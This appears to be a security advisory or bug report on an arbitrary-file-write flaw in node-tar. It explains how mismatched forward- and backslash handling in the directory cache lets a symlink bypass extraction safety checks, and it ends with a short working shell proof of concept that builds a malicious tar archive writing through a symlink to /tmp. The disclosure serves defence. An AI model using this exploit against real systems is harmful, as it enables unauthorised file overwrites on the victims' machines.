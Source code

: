 ```javascript
  const sub = path.relative(cwd, dir)
  const parts = sub.split(/\/|\\/)
  let created = null
  for (let p = parts.shift(), part = cwd;
    p && (part += '/' + p);
    p = parts.shift()) {
    if (cache.get(part))
      continue
      
    try {
      fs.mkdirSync(part, mode)
      created = created || part
      cache.set(part, true)
    } catch (er) {
```

It looks like the path is being split on both back and forward slashes. The entries are then joined with forward slashes before being inserted into the directory cache. 

For example: 

- directory cache: `C:\abc\test-unpack/x` 
- `entry.absolute`: `C:\abc\test-unpack\x`

When we create the directory, `...\test-unpack/x` will be inserted into the directory cache. When we try and remove a folder, `entry.absolute` will be `...\test-unpack\x`. 

This means the following checks will never be satisfied. 

```javascript
        if (path === entry.absolute ||
            path.indexOf(entry.absolute + '/') === 0 ||
            path.indexOf(entry.absolute + '\\') === 0)
```

We would be checking for `...\test-unpack\x`, `...\test-unpack\x/`, and `...\test-unpack\x\`, none of which match `...\test-unpack/x`. 

Thus, we can remove a folder without purging the corresponding entry from the directory cache. Then when we extract through the symlink, it will renormalize the path with forward slashes, thus aborting early and skipping the security checks. 

A different issue, but with the same root cause, exists on Unix. 

If we create a path with name `a\\x`, security checks will be performed on `a` and `a/x` but not the actual file `a\\x`. Thus, if we create our symlink with a filename that contains a backslash, we will be able to bypass the directory cache protections again!

```sh
#!/bin/sh

ln -s /tmp a\\x
tar cf poc.tar a\\x
echo 'arbitrary file write in node-tar' > a\\x/pwned
tar rf poc.tar a\\x a\\x/pwned
rm a\\x
```
